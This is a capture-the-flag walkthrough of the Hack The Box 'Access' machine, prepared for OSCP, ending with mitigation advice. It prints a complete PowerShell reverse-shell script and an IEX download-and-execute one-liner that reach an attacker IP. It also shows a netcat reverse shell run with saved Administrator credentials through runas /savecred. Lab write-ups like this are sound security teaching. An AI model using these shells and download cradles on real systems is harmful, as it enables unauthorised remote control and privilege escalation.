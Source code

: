 ```yaml
---
title: Access
date: 2025-05-24
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, Windows, mdbtools, .pst, telnet-shell, saved-cred-privesc ] 
image: ac.png
media_subpath: /assets/img/posts/2025-05-24-accessHTB/
---
```


## Introduction

In this walkthrough, I tackled *Access*, an easy-level Windows machine that demonstrates how devices tied to physical security can have poor digital security hygiene. I started by connecting to the FTP server, which allowed **anonymous login**. Inside, I found a **Microsoft Access database (.mdb)** and a **password-protected ZIP file**. Using `mdbtools`, I read the `.mdb` file and extracted the ZIP password. Upon extracting the ZIP, I retrieved a **.pst (Outlook data)** file, which I converted into an **mbox** format using `readpst`. From the mbox file, I discovered credentials for a user. With these, I successfully gained a shell via **Telnet**. Finally, by leveraging **Credential Manager saved credentials**, I escalated privileges on the machine.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 21

Anonymous access is allowed. 

Under `Backups` directory we can see very big file, I encountered an error while trying to get it, that’s why I shifted to analyzing the other file `Access Control.zip` which was under `Engineers` directory.

Then I found the following post and used [binary transfer](https://stackoverflow.com/questions/37187986/bare-linefeeds-received-in-ascii-mode-warning-when-listing-directory-on-my-ftp)

and got `backup.mdb` too.

### Port 23

We don’t have many things to do with this protocol.

## Web

### Port 80

Version - Microsoft IIS httpd 7.5

![image.png](image%202.png)

**Gobuster scan**

![image.png](image%203.png)

Access is denied to `aspnet_client`.

## Exploitaiton

When trying to decompress the `zip` file with `unzip` it returns error `unsupported compression method 99` which indicates likely zip file is password-protected.

![image.png](image%204.png)

We can see it also from the following command:

```bash
7z e Access\ Control.zip
```

![image.png](image%205.png)

To interact with Microsoft Access Database I downloaded `mdbtools`.

```bash
sudo apt install mdbtools
```

From this website we can see usage of the tool https://github.com/mdbtools/mdbtools.

First I found where passwords are stored analysing the tables.

```bash
mdb-schema backup.mdb > file.txt
```

I found they are stored inside of `auth_user` table, and then used mdbtools command to extract them.

```bash
mdb-json backup.mdb auth_user
```

![image.png](image%206.png)

We can see the passwords are extracted now we can extract a file from password-protected `zip` file using Engineer’s password.

```bash
{"id":25,"username":"admin","password":"admin","Status":1,"last_login":"08/23/18 21:11:47","RoleID":26}
{"id":27,"username":"engineer","password":"access4u@security","Status":1,"last_login":"08/23/18 21:13:36","RoleID":26}
{"id":28,"username":"backup_admin","password":"admin","Status":1,"last_login":"08/23/18 21:14:02","RoleID":26}
security : 4Cc3ssC0ntr0ller
```

I see `.pst` file while searching in Google I found that we can convert `.pst` format to `.mbox` and read it using:

```bash
readpst 'Access Control.pst'
cat 'Access Control.mbox' 
```

![image.png](image%207.png)

Telnet was used before SSH became a standard let’s get a shell using telnet.

```bash
telnet $IP
<username>
password: <password>
```

![image.png](image%208.png)

Now we have a shell as `security` user.

## Privilege Escalation

Let’s get a normal shell using powershell:

```powershell
$client = New-Object System.Net.Sockets.TcpClient("10.10.14.17", 443)
$stream = $client.GetStream()
$buffer = New-Object Byte[] 65536

while (($bytesRead = $stream.Read($buffer, 0, $buffer.Length)) -ne 0) {
    $data = (New-Object System.Text.ASCIIEncoding).GetString($buffer, 0, $bytesRead)
    $result = try { Invoke-Expression $data 2>&1 } catch { $_ }
    $response = $result | Out-String
    $prompt = "PS " + (Get-Location).Path + "> "
    $fullResponse = $response + $prompt
    $sendBytes = [System.Text.Encoding]::ASCII.GetBytes($fullResponse)
    $stream.Write($sendBytes, 0, $sendBytes.Length)
    $stream.Flush()
}

$client.Close()
```

```powershell
START /B "" powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.17/shell.ps1')
```

![image.png](image%209.png)

Checking root directory I see one non-default directory called ZKTeco, and I see it is ZKAcess3.5 inside of directory.

I found the following exploit for it https://www.exploit-db.com/exploits/40323

```
Desc: ZKAccess suffers from an elevation of privileges vulnerability
which can be used by a simple authenticated user that can change the
executable file with a binary of choice. The vulnerability exist due
to the improper permissions, with the 'M' flag (Modify) for 'Authenticated Users'
group.
```

![image.png](image%2010.png)

I have write permissions but for some reason I wasn’t able to put .exe files inside `ZKAccess3.5` directory.

```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.14.17/reverse.exe','Access.exe')
```

I can’t run `winPEASany.exe` we should do manual enumeration.

I looked at Powershell history file:

```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

checked cmdkey:

```powershell
cmdkey /list
```

And here I see that Administrator credentials are saved for easy use.

![image.png](image%2011.png)

I am gonna upload nc64.exe file and run netcat reverse shell as Administrator using the following command:

```powershell
runas /savecred /user:ACCESS\Administrator "C:\tools\nc64.exe 10.10.14.17 4443 -e cmd.exe”
```

![image.png](image%2012.png)

And that gave admin level shell.

## Mitigation

- **Disable Anonymous FTP Access:** Prevent unauthorized access by disabling anonymous login on FTP servers.
- **Avoid Storing Sensitive Data in Plaintext:** Encrypt or securely store sensitive files like `.mdb`, `.pst`, and credential archives.
- **Limit Use of Outdated Services:** Replace legacy services like Telnet and FTP with secure alternatives like SSH and SFTP.
- **Enforce Strong Access Controls:** Implement proper file permissions and access restrictions on sensitive directories and services.
- **Clear Saved Credentials:** Regularly audit and remove stored credentials from Windows Credential Manager.
- **Monitor File Shares:** Set up monitoring for access to commonly abused file types (.mdb, .pst, etc.) on shared systems.
